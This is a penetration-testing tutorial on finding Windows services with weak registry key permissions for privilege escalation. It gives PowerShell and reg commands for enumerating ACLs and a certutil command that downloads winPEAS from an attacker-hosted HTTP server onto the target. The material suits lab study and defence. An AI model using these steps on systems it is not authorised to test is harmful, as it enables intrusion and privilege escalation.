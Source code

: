 ```yaml
---
legal-banner: true
---
```


### **Hunting for Weak Registry Keys Manually**

1. Hunting for weak registry key permissions with PowerShell  
   `Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\SystemServicesACLs.txt`

2. Transfer the file to your machine for analysis (see the file transfer section). Using Linux commands helps identify outliers more easily:  
   `cat SystemServicesACLs.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"`

### **Hunting for Weak Registry Keys with WinPEAS**

1. Host winPEAS on a Python HTTP server (64-bit)  
   `python3 -m http.server 8000`  
    ![](../../../../img/Windows-Environment/109.png)
   **Note:** We confirmed the target is a 64-bit machine with:  
   `systeminfo | findstr /B /C:"System Type"`

2. Transfer winPEAS to the target using certutil  
   `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    ![](../../../../img/Windows-Environment/110.png)

3. Run winPEAS to search for weak registry permissions  
   `.\winPEASx64.exe`  
    ![](../../../../img/Windows-Environment/111.png)
   **Note:** `FullControl` and `TakeOwnership` privileges can be exploited to abuse weak registry permissions.

### **Enumerating the Weak Service Registry Key**

1. Enumerate the service with cmd.exe  
   `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`  
    ![](../../../../img/Windows-Environment/112.png)

2. Enumerate the service with PowerShell  
   `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc' | Select-Object *`  
    ![](../../../../img/Windows-Environment/113.png)

   Service Start Types: 

     Start 0: Boot Start – Loaded by the OS loader before other services.

     Start 1: System Start – Started during system boot.

     Start 2: Automatic Start – Started automatically by the Service Control Manager at startup. 

     Start 3: Manual Start – Must be started manually by a user or application. 

     Start 4: Disabled – Service is disabled and will not start.

3. Verify permissions with icacls  
   `icacls "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"`  
   `icacls "C:\Program Files\Insecure Registry Service"`  
    ![](../../../../img/Windows-Environment/114.png)

4. Check effective permissions  
   We typically find the user lacks `(F)`, `(M)`, or `(W)` permissions, preventing modification of the binary.  
    ![](../../../../img/Windows-Environment/115.png)

5. Modify the registry key ImagePath if permissions allow  
   `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`

    ![](../../../../img/Windows-Environment/116.png)

    `whoami /groups`

    ![](../../../../img/Windows-Environment/117.png)

    **Note:** The output confirms the user is part of the "NT AUTHORITY\INTERACTIVE" group, which has FullControl permissions on the regsvc registry key, allowing exploitation of weak registry key permissions.